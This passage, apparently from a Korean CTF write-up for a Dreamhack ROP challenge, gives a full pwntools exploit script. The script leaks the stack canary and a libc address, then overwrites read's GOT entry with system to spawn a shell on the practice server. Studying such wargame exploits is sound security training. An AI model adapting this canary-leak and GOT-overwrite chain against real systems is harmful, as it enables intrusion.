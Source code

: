 따라서 rdi값에는 read_got+0x8 주소가 들어 있도록 구성 후 - p64(pop_rdi)+p64(read_got+0x8)

read_plt를 통해 read_got 주소로 가서 변조된 system 함수를 실행시키게 된다.

이제 이 코드들을 모은 최종적인 익스플로잇 코드를 실행시키면 쉘을 얻을 수 있다.

```python
from pwn import *

host="host3.dreamhack.games"
port=23863
p=remote(host,port)

# 카나리값 알아내기
payload=b'A'*0x39
p.sendafter("Buf: ",payload)
p.recvuntil(payload)
canary=u64(b'\x00'+p.recvn(7))
success(": ".join(["canary",hex(canary)]))
#print(canary)
canary=p64(canary)

e=ELF('./rop') # 파일 불러오기
library = ELF('./libc-2.27.so') # 라이브러리 불러오기

# read 함수의 got에 적혀있는 read함수의 라이브러리 주소를
# system 함수의 라이브러리 주소를 덮어 씌울 것이므로 read의 got주소를 알아야함
puts_plt = e.plt['puts'] # puts 함수의 plt 주소 0x400570
read_plt = e.plt['read'] # read 함수의 plt 주소 0x4005a0
read_got = e.got['read'] # read 함수의 got 주소
pop_rdi = 0x00000000004007f3
pop_rsi_r15 = 0x00000000004007f1

# 실행시키고자 하는 함수는 puts(read_got)이고 read 함수의 got 주소에 있는 값을 출력함.
# read 함수의 got 주소에는 read함수의 라이브러리에서의 주소가 나와있으므로 이를 알기 위함임
payload=b'A'*0x38+canary+b'A'*0x8 # buf(0x30) + 8바이트 + canary + SFP

payload += p64(pop_rdi) + p64(read_got) # pop rdi로 read의 got 주소를 매개변수로 설정
payload += p64(puts_plt) # puts의 plt 주소로 ret 되므로 puts(read_got) 실행

# read(0,read_got,?) 실행을 위한 페이로드 이로 인해 내가 입력이 가능하며 그 값을 
# read_got주소에 덮어 씌운다.

payload += p64(pop_rdi)+p64(0) # rdi에 0 설정
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0) # rsi에 read_got 설정 r15는 아무거나
payload += p64(read_plt) # read 함수 실행, 아직 got 덮어씌우지 않았으므로 read가 실행됨.

# system 주소로 덮어씌우고 나서 read_plt를 실행하면 실행되어야 하는 함수는 system 함수다.
# read_got주소에 system 함수, 그리고 이어서 8바이트를 "/bin//sh"이 저장되게 할 것이다.
# 따라서 read_got+0x8에 "/bin//sh"이 저장되어 있을 것이므로 이를 매개변수(rdi)에 저장
payload+=p64(pop_rdi)
payload+=p64(read_got+0x8)
payload+=p64(read_plt) # plt주소가 가리키는 read_got에는 system의 라이브러리 주소가 적혀있음

p.sendafter("Buf: ",payload)

# 즉 read got에 있는 라이브러리상 read의 주소가 출력이 된다.

read_library = u64(p.recvn(6)+b'\x00'*2) # 출력된 read의 라이브러리상 주소 저장
library_base = read_library-library.symbols['read']
system_library = library_base + library.symbols['system']

p.send(p64(system_library)+b"/bin//sh") # 두번째 페이로드 read(0,read_got,?)일 때 보낼 값
																			# 이로 인해 이제 read_got에는 system 주소가 있음
```